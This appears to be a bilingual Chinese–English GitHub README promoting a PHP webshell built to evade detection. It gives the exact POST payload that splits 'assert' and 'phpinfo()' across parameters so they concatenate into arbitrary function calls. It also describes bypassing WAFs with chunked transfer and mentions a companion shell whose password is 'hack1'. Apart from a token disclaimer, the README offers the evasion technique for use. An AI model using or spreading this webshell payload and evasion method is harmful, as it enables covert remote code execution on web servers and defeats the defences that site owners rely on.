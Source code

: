  # shell

 新版本（>7.2）不再可用
我发现了一种php-shell的新写法，它可以绕过大部分的检测，调用任意php函数，还可以用分块传输绕过waf

使用post发送如下参数

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()&hack5=pwd


hack1会和hack2拼接，hack3会和hack4拼接而形成assert(phpinfo())

I have discovered a new way to write a PHP shell that can bypass most of the detection, call arbitrary PHP functions, and bypass waf using block transfer

Send the following parameters using post

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()&hack5=pwd

Hack1 will be spliced with Hack2, and Hack3 will be spliced with Hack4 to form an assert (phpinfo())
![1](https://user-images.githubusercontent.com/90552883/229515220-742c99b2-a06f-4f30-99b9-c57b3a1c373a.PNG)
![2](https://user-images.githubusercontent.com/90552883/229515223-ce3efc9e-e456-4421-81c6-1036808c2bbf.PNG)
![3](https://user-images.githubusercontent.com/90552883/229515226-11aaa83e-9ab8-4b24-b30b-cd996e23df69.PNG)
![4](https://user-images.githubusercontent.com/90552883/229517804-b1b83abb-d678-4b24-b2be-dd9bcddde2e4.PNG)

我还编写了通过拼接编码方式来绕过检测的ms.php(绕过效果比xz.php差) 可以向php一句话一样来使用它 密码（hack1)

欢迎各位提供绕过思路

请勿用于违法行为！！！！！！！！！！！！！！！

I also wrote ms.php that bypasses detection through concatenation encoding (the bypass effect is worse than xz.php), and can use its password (hack1) like a sentence in PHP

Welcome to provide bypass ideas

Please do not use it for illegal activities!!!!!!!!!!!!!!!
